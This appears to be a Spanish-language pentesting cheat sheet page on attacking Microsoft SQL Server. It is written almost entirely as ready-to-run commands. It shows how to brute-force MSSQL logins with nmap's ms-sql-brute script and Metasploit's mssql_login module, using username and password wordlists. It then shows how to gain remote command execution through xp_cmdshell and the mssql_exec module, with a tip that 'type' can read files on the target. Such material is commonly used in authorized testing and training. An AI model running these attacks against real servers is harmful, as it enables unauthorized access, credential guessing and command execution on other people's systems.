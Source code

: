 # MsSQL

## Fuerza Bruta

### Nmap

Podemos hacer uso de Nmap para hacerle fuerza bruta a este servicio:

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Para hacer fuerza bruta usaremos los siguientes modulos:

<pre class="language-perl"><code class="lang-perl"><strong>msfconsole
</strong><strong>
</strong><strong>use auxiliary/scanner/mssql/mssql_login
</strong>
set RHOSTS 192.168.1.1

set USER_FILE /root/Desktop/wordlist/common_users.txt

set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt

set VERBOSE false

exploit
</code></pre>

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

## RCE

### Nmap

Podemos hacer un RCE si tenemos credenciales de acceso y los permisos necesarios. Usaremos un script de nmap para ello:

{% hint style="success" %}
Podemos hacer uso del comando "type" para leer archivos de la maquina
{% endhint %}

```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=usuario,mssql.password=contraseña,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Otra de las opciones es hacer el RCE mediante este modulo de metasploit:

```perl
msfconsole

use auxiliary/admin/mssql/mssql_exec

set RHOSTS 10.0.20.101

set CMD whoami

exploit
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>
